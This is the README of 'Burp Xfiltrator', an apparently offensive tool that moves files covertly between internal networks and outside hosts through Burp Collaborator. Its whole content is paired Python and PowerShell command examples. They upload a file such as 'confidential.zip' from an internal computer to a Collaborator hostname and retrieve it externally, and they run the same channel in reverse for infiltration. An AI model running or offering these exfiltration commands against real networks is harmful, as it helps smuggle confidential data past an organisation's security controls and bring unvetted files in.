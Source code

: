 # Burp Xfiltrator

## Usage

1. Open Burp Suite Professional.
2. Open Burp Collaborator Client tool.
3. Get two hostnames and two biids:
- &lt;BURPCOLLABORATOR-HOSTNAME-1&gt; and &lt;BIID-1&gt; for external to internal communication.
- &lt;BURPCOLLABORATOR-HOSTNAME-2&gt; and &lt;BIID-2&gt; for internal to external communication.

### For exfiltration

- Example 1:
```
(external computer) sh > python3 bx.py download <BURPCOLLABORATOR-HOSTNAME-1> <BIID-2> confidential.zip 1234qwer

(internal computer) PS > .\bx.ps1 upload <BURPCOLLABORATOR-HOSTNAME-2> <BIID-1> confidential.zip
Enter Key: 1234qwer
```
- Example 2:
```
(external computer) sh > python3 bx.py download <BURPCOLLABORATOR-HOSTNAME-1> <BIID-2> confidential.zip
Enter Key: 1234qwer

(internal computer) sh > python3 bx.py upload <BURPCOLLABORATOR-HOSTNAME-2> <BIID-1> confidential.zip 1234qwer
```

### For infiltration

- Example 1:
```
(internal computer) PS > .\bx.ps1 download <BURPCOLLABORATOR-HOSTNAME-2> <BIID-1> confidential.zip 1234qwer

(external computer) sh > python3 bx.py upload <BURPCOLLABORATOR-HOSTNAME-1> <BIID-2> confidential.zip 1234qwer
```
- Example 2:
```
(internal computer) PS > .\bx.ps1 download <BURPCOLLABORATOR-HOSTNAME-2> <BIID-1> confidential.zip
Enter Key: 1234qwer

(external computer) PS > .\bx.ps1 upload <BURPCOLLABORATOR-HOSTNAME-1> <BIID-2> confidential.zip 1234qwer
```
